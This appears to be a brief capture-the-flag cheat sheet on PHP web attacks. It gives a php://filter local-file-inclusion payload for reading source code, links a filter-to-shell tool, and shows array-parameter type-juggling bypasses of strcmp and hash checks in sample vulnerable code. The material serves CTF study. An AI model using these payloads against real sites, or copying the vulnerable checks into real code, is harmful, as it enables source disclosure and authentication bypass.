 ```yaml
---
title: PHP
---
```


## LFI

### php://filter
To return the base64 of a file, like the source code of a page, `php://filter` can be used like this:

`view.php?page=php://filter/convert.base64-encode/resource=index.php`

#### Adding data to output using filter
[Tool](https://github.com/wupco/PHP_INCLUDE_TO_SHELL_CHAR_DICT)

## Type Juggling
### strcmp
If `strcmp` is used like this

```php
if (strcmp($_POST["pass"], $flag) == 0) {
    echo "Flag: {$flag}";
} else {
    echo "Fail";
}
```

It's vulnerable to type juggling. Changing the `pass` parameter to an array like `pass[]=1` will execute the `true` block.

### Different inputs, matching hashes
``` php
if (isset($_GET['input1']) and isset($_GET['input2'])) {
  if ($_GET['input1'] == $_GET['input2']) {
    print 'Inputs can\'t be the same!';
  } else if (hash("sha256", $_GET['input1']) === hash("sha256", $_GET['input2'])) {
    print 'flag';
  } else {
    print 'Inputs can\'t match!';
  }
}
```

In this example we can get to the `print 'flag';` statement by type juggling the parameters. For example changing the parameters to arrays, `?input1[]=1&input2[]=2`. This will satisfy all checks and print the flag.
